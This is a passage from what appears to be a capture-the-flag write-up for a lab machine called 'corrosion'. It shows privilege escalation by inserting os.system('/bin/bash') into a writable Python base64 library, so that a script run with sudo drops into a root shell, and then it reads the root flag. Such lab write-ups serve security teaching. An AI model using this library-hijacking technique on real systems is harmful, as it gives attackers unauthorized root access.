We do have write access on the base64 library. We can now just add our malicious code in there and run the script using sudo and we will have root.

```bash
import os
os.system("/bin/bash")
```

I added the above script to get a shell directly

```bash
root@corrosion:/home/randy# whoami
root
```

And there we go we have root.

```bash
root@corrosion:~# cat root.txt 
2fdbf8d4f894292361d6c72c8e833a4b
```
